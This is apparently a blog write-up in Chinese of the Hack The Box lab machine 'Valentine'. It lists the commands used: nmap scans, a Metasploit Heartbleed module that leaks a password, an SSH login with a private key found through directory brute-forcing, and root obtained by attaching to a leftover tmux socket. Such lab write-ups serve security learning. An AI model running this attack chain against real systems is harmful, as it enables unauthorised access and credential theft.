 ```yaml
---
title: "【HTB Machine】Valentine"
date: 2024-09-05
tags:
  - ctf
url: "/posts/HTB/Valentine/"
---
```


# 【HTB Machine】Valentine

```
LHOST: 10.10.16.13
RHOST: 10.129.11.184
```

```bash
nmap -sCV 10.129.11.184
```

![image1](/images/htb/valentine/image1.png)

```bash
nmap --script vuln 10.129.11.184
```

![image2](/images/htb/valentine/image2.png)

Heartbleed 有心臟出血漏洞

網路上很多 POC, 這邊直接開 metasploit 來攻擊

```bash
msfconsole
search openssl
use auxiliary/scanner/ssl/openssl_heartbleed
set RHOSTS 10.129.11.184
set verbose true
run
```

![image3](/images/htb/valentine/image3.png)

有一串看起來像 Base64 的字串，拿去解密

![image4](/images/htb/valentine/image4.png)

看起來像密碼

現在來找使用者名稱

使用 dirbuster 爆破目錄

![image5](/images/htb/valentine/image5.png)

`/dev/hype_key` 看起來很有趣

下載下來後拿去 xxd 會發現是 ssh private key

拿來登入看看，這裡需要通靈一下，使用者名稱是 hype

```bash
chmod 600 hype_key
ssh -i hype_key hype@10.129.11.184 -o PubkeyAcceptedKeyTypes=+ssh-rsa # 加上 PubkeyAcceptedKeyTypes 是因為這個 key 太舊而不會被新版的 ssh 接受
```

![image6](/images/htb/valentine/image6.png)

# User Pwned!!!

## 提權

看看歷史指令紀錄

```bash
history
```

![image7](/images/htb/valentine/image7.png)

這個使用者使用過 `tmux`，開了一個 dev session，照著他的指令打一遍看看

```bash
tmux -S /.devs/dev_sess
```

直接拿到 root shell

![image8](/images/htb/valentine/image8.png)

# Root Pwned!!!

## Summary

這題除了通靈使用者名稱外還算簡單，下次有空來試試看不用 metasploit 的方式來 exploit Heartbleed